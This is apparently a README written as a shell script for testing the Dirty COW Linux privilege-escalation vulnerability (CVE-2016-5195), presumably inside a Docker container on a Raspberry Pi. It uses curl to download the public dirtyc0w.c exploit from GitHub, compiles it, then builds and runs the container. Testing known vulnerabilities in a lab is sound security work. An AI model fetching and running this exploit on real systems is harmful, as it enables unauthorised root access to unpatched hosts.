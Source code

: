 #!/bin/sh

# infos from:
#   https://www.redpacketsecurity.com/testing-dirty-cow-cve-2016-5195/
# run with:
#   $ bash README.md

set -e 

sudo apt-get install -y gcc
curl https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c > dirtyc0w.c
gcc -static -s -pthread dirtyc0w.c -o dirtyc0w

docker build -t rpi-dirtycow .
docker run --rm -ti rpi-dirtycow

